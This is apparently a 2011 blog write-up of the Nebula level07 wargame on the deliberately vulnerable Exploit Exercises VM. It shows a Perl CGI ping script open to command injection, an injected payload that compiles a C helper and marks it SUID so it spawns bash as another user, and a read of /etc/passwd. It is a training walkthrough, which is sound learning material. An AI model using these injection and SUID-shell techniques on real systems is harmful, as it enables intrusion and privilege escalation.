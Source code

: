 ```yaml
---
title: "Exploit Exercises - Nebula 07"
date: "2011-12-08T06:10:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-07.html"
---
```


This [next challenge](http://exploit-exercises.com/nebula/level07) is a little bit more tricky than some of the previous ones.  There's a lot more code involved, but it's not too bad.

<!-- more -->

In the flag07 home directory, you'll find the configuration for a simple http server, thttpd.conf.  Inside, you'll find that it's running an HTTP server on port 7007 as the flag07 user.  This is where the perl script that is provided comes in.

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
 $host = $_[0];

 print("<html><head><title>Ping results</title></head><body><pre>");

 @output = `ping -c 3 $host 2>&1`;
 foreach $line (@output) { print "$line"; } 

 print("</pre></body></html>");  }  # check if Host set. if not, display normal page, etc  

 ping(param("Host"));
```

You can now browse to this script by going to http://<nolink>10.1.1.16:7007/index.cgi (assuming your Nebula VM is running on 10.1.1.16).  Unfortunately, since no parameters are being passed, it presents us with the usage of ping. 

```
Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
```

The perl script takes a parameter named "Host", and pipes it into the ping command.  Because of how poorly the perl script was written, we can inject more commands in there.  To make it easy, I made a quick HTML document to assist, so I didn't have to do the encoding of spaces and symbols. 

```
<html> <body>
  <form action="http://10.1.1.6:7007/index.cgi" method="get">
   <input name="Host" id="Host" type="text" />
   <input type="submit" />
  </form>
 </body>
</html>
```

Now I can open that html file in my browser of choice, and when I submit, it'll automatically do all the encoding for me, so I can just worry about the injection. 

In addition to the html page, I also modified my level03.c from a prior post, to make it more generic.  I saved this file as /tmp/bash_id.c: 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(int argc, char *argv[]){
    if (argc != 2)
        printf("usage: %s <user id>\n", argv[0]);
    else {
        int i = atoi(argv[1]);
        setresuid(i, i, i);
        setresgid(i, i, i);
        system( "/bin/bash" );
    }
    return 0;
}
```

This modified source file now takes a parameter of the user id you want to impersonate.  I want to impersonate the flag07 user, so I checked out the /etc/passwd file. 

```
level07@nebula:/tmp$ cat /etc/passwd | grep flag07
flag07:x:992:992::/home/flag07:/bin/sh
```

Now I know that flag07 is also user 992. 

I opened the html file that I made, and in the textbox typed:  

```
;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07
```

When I clicked the submit button, it sent the final command of:  

```
ping -c 3 ;gcc -o level07 /tmp/bash_id.c;chmod +s,a+wrx level07 2>&1
```

It makes the ping program have incorrect usage, thus ending quickly.  It then compiles my newly written bash_id.c script, and places the executable in the /home/flag07 folder, and marks it executable and SUID.  From here, it was just as simple as executing that program with the 992 parameter, and running "getflag".

```
level07@nebula:/home/flag07$ ./level07 992
flag07@nebula:/home/flag07$ getflag
You have successfully executed getflag on a target account
```
